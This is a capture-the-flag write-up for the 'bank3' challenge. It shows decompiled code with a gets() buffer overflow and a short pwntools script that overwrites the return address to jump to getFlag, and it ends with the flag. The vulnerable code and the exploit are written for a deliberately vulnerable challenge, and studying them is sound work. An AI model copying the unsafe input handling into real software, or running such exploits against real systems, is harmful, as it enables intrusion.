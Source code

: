 ## bank3

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We use buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(0x08048506))
conn.interactive()
```

The flag is `HCMUS-CTF{overwrite_all_the_things}`
